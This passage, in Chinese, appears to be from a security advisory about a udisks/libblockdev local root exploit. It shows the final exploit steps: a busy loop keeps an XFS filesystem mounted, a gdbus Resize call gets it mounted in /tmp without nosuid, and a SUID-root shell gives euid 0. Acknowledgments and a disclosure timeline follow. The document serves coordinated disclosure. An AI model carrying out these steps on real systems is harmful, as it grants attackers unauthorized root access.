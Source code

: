 4/ 我们请求 udisks 守护进程调整 XFS 文件系统的大小，这将强制 libblockdev 在 /tmp 目录下挂载该文件系统而不使用 nosuid 和 nodev 标志。但在此之前，我们先运行一个紧密循环来保持 XFS 文件系统处于忙碌状态，从而防止 libblockdev 稍后将其卸载：  
```
victim> while true; do /tmp/blockdev*/bash -c 'sleep 10; ls -l /tmp/blockdev*/bash' && break; done 2>/dev/null &

victim> gdbus call --system --dest org.freedesktop.UDisks2 --object-path /org/freedesktop/UDisks2/block_devices/loop0
--method org.freedesktop.UDisks2.Filesystem.Resize 0 '{}'
Error: GDBus.Error:org.freedesktop.UDisks2.Error.Failed: Error resizing filesystem on /dev/loop0: Failed to unmount
'/dev/loop0' after resizing it: target is busy

-r-sr-xr-x. 1 root root 1406608 May 13 09:42 /tmp/blockdev.RSM842/bash
```  
  
5/ 最后，我们执行位于 /tmp 目录下 XFS 文件系统中的 SUID-root shell，从而获得完整的 root 权限：  
```
victim> mount
...
/dev/loop0 on /tmp/blockdev.RSM842 type xfs (rw,relatime,attr2,inode64,logbufs=8,logbsize=32k,noquota)

victim> /tmp/blockdev*/bash -p

victim# id
uid=65534(nobody) gid=65534(nobody) euid=0(root) groups=65534(nobody)
                                    ^^^^^^^^^^^^
```  
## 致谢  
  
我们感谢 SUSE（特别是 Alexander Bergmann、Thomas Blume、Valentin Lefebvre）和 Red Hat（特别是 Patrick Del Bello、Marco Benatto、Tomas Bzatek）对本版本的工作。我们也感谢 linux-distros@openwall 的成员（特别是 Salvatore Bonaccorso 和 Nick Tait）对本版本的帮助。  
  
最后，我们感谢 Gergely Kalman 提供的以下启发性的演讲：  
  
https://gergelykalman.com/the-forgotten-art-of-filesystem-magic-alligatorcon-2024-slides.html  
## 时间线  
  
2025-05-14: 我们将安全公告草案发送给 SUSE (security@suse) 和 Red Hat (secalert@redhat)。  
  
2025-06-09: 我们将安全公告草案以及 SUSE 和 Red Hat 的补丁发送给 linux-distros@openwall。  
  
2025-06-17: 协调发布日期（16:00 UTC）。  
  
